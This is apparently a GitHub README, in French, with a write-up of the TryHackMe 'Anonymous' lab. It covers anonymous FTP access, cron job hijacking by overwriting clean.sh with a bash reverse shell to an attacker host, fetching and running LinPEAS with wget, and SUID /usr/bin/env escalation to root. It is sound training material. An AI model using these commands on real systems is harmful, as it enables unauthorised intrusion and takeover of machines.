



# Anonymous - TryHackMe Write-up

## 🎯 Objectif
Ce dépôt documente la résolution de la room **"Anonymous"** sur TryHackMe. L'objectif est d'exploiter une mauvaise configuration des permissions FTP pour obtenir un accès initial, puis d'utiliser un binaire SUID mal configuré pour élever nos privilèges jusqu'à **root**.

**Compétences démontrées :**
* **Reconnaissance** (Nmap, Énumération FTP).
* **Exploitation de Cron Jobs** (Script Overwriting).
* **Mouvement Latéral** (Reverse Shell).
* **Escalade de privilèges** (Exploitation SUID via GTFOBins).

---

## 🔍 1. Reconnaissance & Énumération FTP

### Scan Nmap
Un scan initial des ports révèle deux services principaux ouverts :
* **Port 22 :** SSH
* **Port 21 :** FTP

### Exploitation FTP
Nous tentons une connexion au serveur FTP en utilisant les identifiants par défaut :
* **User :** `anonymous`
* **Password :** (n'importe quoi, ex: `anonymous`)

La connexion réussit. En explorant les fichiers, nous trouvons un dossier `scripts` contenant trois fichiers. Nous les téléchargeons en local pour analyse.



**Analyse des fichiers :**
L'un des fichiers est un script shell nommé `clean.sh`. Il semble être conçu pour supprimer le contenu d'un fichier de logs (`removed_files.log`).
La présence de ce script et son exécution régulière suggèrent qu'il est géré par un **Cron Job** (une tâche planifiée automatisée sous Linux).

---

## 🕷️ 2. Exploitation : Cron Job Hijacking

**Vulnérabilité :**
Nous avons remarqué que nous avons les droits d'écriture sur le serveur FTP dans le dossier `scripts`. Cela signifie que nous pouvons remplacer le fichier `clean.sh` légitime par notre propre version malveillante. Comme le cron job exécute ce fichier régulièrement, il exécutera notre code.

**Vecteur d'attaque :**
1.  Nous créons un fichier nommé `clean.sh` en local contenant un reverse shell :

```bash
#!/bin/bash
bash -i >& /dev/tcp/THM-IP/9000 <&1
```

Nous uploadons ce fichier sur le serveur FTP pour écraser l'ancien :

```bash
ftp> put clean.sh
```
Nous ouvrons un listener Netcat sur notre machine pour attendre la connexion :
```bash
nc -lvnp 9000
```
Lorsque le Cron Job s'exécute (selon son intervalle planifié), il lance notre script clean.sh. Nous obtenons alors un shell en tant qu'utilisateur local.


## 👑 3. Escalade de Privilèges : User vers Root
*(Technique : SUID Binary Exploitation)*

Une fois connecté, nous vérifions les privilèges avec `sudo -l`, mais l'utilisateur n'a aucun droit sudo. Nous passons donc à une énumération plus poussée avec **LinPEAS**.

### Énumération automatisée avec LinPEAS
Pour transférer `linpeas.sh` sur la machine victime, nous hébergeons un serveur Python :

1.  **Sur notre machine (Attaquant) :**
```bash
python3 -m http.server 8000
```
2. **Sur la machine victime :**
```bash
wget http://THM-IP_ATTAQUANT:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```


LinPEAS met en évidence un binaire intéressant avec le bit **SUID** activé : `/usr/bin/env`.

### Exploitation SUID
Le bit SUID sur `/usr/bin/env` permet d'exécuter des commandes avec les permissions du propriétaire du fichier (ici, `root`), tout en conservant l'environnement actuel.

Nous consultons **GTFOBins** pour trouver la commande d'exploitation.
La commande suivante permet de lancer un shell système (`/bin/sh`) en mode privilégié (`-p`) via `env` :

```bash
/usr/bin/env /bin/sh -p
```


L'exécution de cette commande nous donne instantanément un shell root. Nous avons maintenant le contrôle total de la machine.
